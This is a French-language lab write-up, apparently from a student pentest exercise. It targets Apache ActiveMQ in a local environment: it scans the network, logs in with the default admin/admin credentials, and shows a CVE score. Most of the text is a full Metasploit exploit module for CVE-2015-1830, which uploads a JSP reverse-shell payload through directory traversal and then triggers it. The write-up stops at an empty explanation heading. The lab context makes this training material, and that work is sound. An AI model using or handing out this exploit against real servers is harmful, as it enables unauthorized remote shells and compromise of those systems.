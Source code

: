 ## ActiveMQ_2015

### Scan du réseau
Dans le cas d'ActiveMQ_2015 l'adresse ip est 172.18.0.1
![Capture d'écran 2024-10-01 121316](https://github.com/user-attachments/assets/8d40d00b-0967-452f-8e6e-0fdf3dcc81e7)

Grace à notre scan on en déduit que le port qui nous intéresse est le 8161.
Pour se rediriger sur le site le lien est donc `http://localhost:8161`

### Version d'ActiveMQ 
Pour savoir la version il faut se connecter:  
- Login: admin
- Mot de passe: admin
![Capture d'écran 2024-10-01 115916](https://github.com/user-attachments/assets/1cc0ec1d-9c63-4438-8c34-dd006a92ac7b)

### CVE Score
![Capture d'écran 2024-10-01 121800](https://github.com/user-attachments/assets/0566d3f7-64a6-470f-9ca1-1b5049191008)

### Stratégie de compromission

# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework


class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    => %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/<payload>.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =>
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =>
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     => false,
      'Platform'    => %w{ win },
      'Targets'     =>
        [
          [ 'Windows Java',
            {
              'Arch' => ARCH_JAVA,
              'Platform' => 'win'
            }
          ],
        ],
      'DisclosureDate' => '2015-08-19',
      'License'        => MSF_LICENSE,
      'DefaultOptions'  => {
        'RPORT' => 8161,
        'PAYLOAD' => 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  => 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'PUT',
      'data'      => "<% out.println(\"#{testcontent}\");%>"
    })

    res1 = send_request_cgi({
      'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'GET'
    })

    if res1 && res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    => 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'PUT',
      'data'      => payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    => 'GET'
    })
    if res && res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
end
            

### Exploitation/Explication
